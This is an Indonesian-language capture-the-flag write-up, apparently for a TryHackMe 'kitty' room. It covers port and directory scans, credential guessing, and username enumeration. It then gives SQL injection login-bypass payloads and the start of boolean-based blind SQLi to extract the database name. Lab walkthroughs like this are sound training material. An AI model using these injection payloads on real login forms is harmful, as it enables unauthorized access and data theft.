hasil scan nmap/rustscan:
```bash
port 22
port 80
```

Hasil dirsearch:
```bash
200     1B   http://kitty.thm/config.php
200   512B   http://kitty.thm/index.php/login/
302     0B   http://kitty.thm/logout.php    -> REDIRECTS TO: index.php
200   564B   http://kitty.thm/register.php
```

Saat pergi ke http://kitty.thm hanya berisi login page. Beberapa creds yang dicoba:
    - `admin:admin` gagal
    - `admin:password` gagal
    - `administrator:password` gagal
    - `administrator:administrator` gagal
    - `root:root` gagal

Coba register dengan `qwer:qwerqwer` lalu login, tidak ada informasi yang bisa didapat. File `config.php` juga tidak ada isi. Selanjutnya coba daftar dengan user yang sama `qwer` terdapat alert menginformasikan username sudah digunakan dan tidak bisa overwrite data password dengan register dengan creds yang sama. Coba enumerasi user
    - `admin` tidak ada
    - `root` tidak ada
    - `administrator` tidak ada
    - `kitty` ada

Didapat user `kitty`. Coba login dengan SQLi dengan beberapa payload
    - `kitty' or '1'='1';-- -` gagal, teridentifikasi sebagai sqli
    - `kitty' and '1'='1';-- -` berhasil
Bisa disimpulkan `or` termasuk blacklist.

Berhasil login dengan user `kitty` namun tetap tidak menghasilkan apapun. `config.php` juga masih kosong. Selanjutnya kita coba melakukan Boolean Based Blind SQLI.

enumerate kolom:
    - `kitty' order by 4-- -`
total ada 4 kolom

enumerate nama database:
    - `username=kitty'+and+substring(database(),1,1)%3d"m"+%23&password=asd`
    - `username=kitty'+and+substring(database(),2,1)%3d"y"+%23&password=asd`
